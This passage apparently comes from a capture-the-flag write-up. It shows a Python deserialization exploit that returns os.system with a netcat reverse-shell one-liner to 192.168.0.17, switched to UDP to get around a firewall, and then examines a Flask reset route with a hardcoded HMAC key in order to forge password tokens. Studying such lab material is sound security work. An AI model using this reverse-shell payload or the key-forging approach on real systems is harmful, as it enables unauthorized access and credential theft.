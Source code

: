     return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.17 9001 >/tmp/f',)) 

I tried the above command, and also tried other command like wget, but it didn't work, it doesn't accept TCP connections just 21 and 1337. I had to change the communication mode by doing a UDP reverse shell. I only added the -u option to specify that it is UDP mode. 

    return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 192.168.0.17 9001 >/tmp/f',)) 

Now we have to use the netcat command to listen to a port and especially not to forget the -u option to specify the UDP protocol. And if now, I run the script, the server returns a shell to me. 

    @app.route('/reset', methods=["GET", "POST"]) 
    @requires_auth 
    def reset_page(): 
        if request.method == "POST" and request.form["username"] and request.form["key"]: 
            key = "dpff43f3p214k31301" 
            raw = request.form["username"] + key + socket.gethostbyname(socket.gethostname()) 
            hashed = hmac.new(key, raw, hashlib.sha1) 
            if request.form["key"] == hashed.hexdigest(): 
                return base64.b64encode(hashed.digest().encode("base64").rstrip("\n")) 
            else: 
                return "Server Error!" 

We can see that there is a condition which tests if the method is POST and also tests if the username and key parameter exists. 

    if request.method == "POST" and request.form["username"] and request.form["key"] 

Then there is a key. 

    key = "dpff43f3p214k31301" 
    
Then concretely, it gets the user argument and merges it with the key and with the local IP address. 

    raw = request.form["username"] + key + socket.gethostbyname(socket.gethostname()) 
    
Then the script encrypts the raw variable with the key key which is stored in the hashed variable. 

    hashed = hmac.new(key, raw, hashlib.sha1) 

Then it tests if the key argument is equal to the variable hashed in hex . 

    if request.form["key"] == hashed.hexdigest()

If the key is equal it encodes this in base64, we can probably recover the password for user mark and lucas. 

    return base64.b64encode(hashed.digest().encode("base64").rstrip("\n") 

We need to do local testing to better understand the system. I completely copy the function and paste this into my python file. 

    import hashlib 
    import requests 
    import socket 
    import base64 
    import hmac 
    